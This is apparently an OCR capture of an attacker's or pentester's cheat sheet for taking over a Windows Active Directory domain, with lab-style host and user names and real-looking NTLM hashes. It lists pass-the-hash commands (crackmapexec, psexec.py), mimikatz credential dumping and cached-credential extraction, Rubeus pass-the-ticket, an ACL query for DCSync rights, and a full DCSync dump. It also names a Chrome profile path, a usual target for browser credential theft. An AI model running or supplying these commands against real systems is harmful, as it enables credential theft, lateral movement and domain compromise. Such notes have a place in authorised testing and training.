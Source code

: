 ```
C:\Users\ivory\AppData\Local\Google\Chrome\User Data\Default

## PtH 

crackmapexec smb area72 -d area72 -u ivory -H f6cea93139ed5c1650951d8cad886346

crackmapexec smb area72 -d area72 -u ivory -H f6cea93139ed5c1650951d8cad886346 -X whoami

python3 psexec.py ivory@area72 -hashes aad3b435b51404eeaad3b435b51404ee:f6cea93139ed5c1650951d8cad886346

crackmapexec smb femmefatale -d zero.arc.corp -u zonia -H fbd22237b572e96f60c60937accd2001

mimikatz.exe

privilege::debug

token::elevate

sekurlsa::logonPasswords

## PTT

.\rubeus.exe asktgt /domain:zero.arc.corp /user:zonia /rc4:fbd22237b572e96f60c60937accd2001 /ptt

## DCSync

Import-Module ActiveDirectory

cd 'AD:DC=ZERO,DC=ARC,DC=corp'

(Get-AcL).Access | Where-Object {$
_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_
.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

net user zonia /domain

mimikatz.exe

lsadump::dcsync /domain:zero.arc.corp /all /csv

## Collecting Creds msCachv2

mimikatz.exe

privilege::debug

token::elevate

lsadump::cache

## Collecting Creds NTLM

*mimikatz on disk*

mimikatz.exe

privilege::debug

token::elevate

sekurlsa::logonPasswords

```